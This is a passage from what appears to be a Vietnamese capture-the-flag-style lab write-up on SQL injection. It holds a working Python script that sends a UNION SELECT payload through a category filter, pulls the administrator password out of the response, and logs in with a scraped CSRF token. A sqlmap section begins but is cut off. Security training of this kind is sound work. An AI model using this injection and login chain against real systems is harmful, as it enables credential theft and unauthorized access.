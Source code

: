 ```python
payload = "' UNION SELECT " + username_column + " || ':' || " + passwod_column + ", NULL FROM " + table_user + "--"
params = {
   'category' : payload,
}
response = session.get(
    url + "/filter",
    params=params,
    verify=False,
)

pattern = r"administrator:\w{20}\b"
match = re.search(pattern, response.text)
account = match.group()
username = account.split(':')[0]
password = account.split(':')[1]

response = session.get(
    url + "/login",
    verify=False,
)
soup = BeautifulSoup(response.text,'html.parser')
csrf= soup.find('input', {'name': 'csrf'})['value']
data= {
    'username' : username,
    'password' : password,
    'csrf' : csrf,
}
response = session.post(
    url + "/login",
    data=data,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/H1zw9ahq6.png)

![image](https://hackmd.io/_uploads/Sk8d5p3qa.png)

mục đích của chúng ta đã hoàn thành và mình đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/B1HYqpn9a.png)

### SQLMAP

- mình đã làm lại bài này với sqlmap
- đầu tiên mình chạy tấn công mặc định và tìm tên database có trong cơ sở dữ liệu bằng lệnh
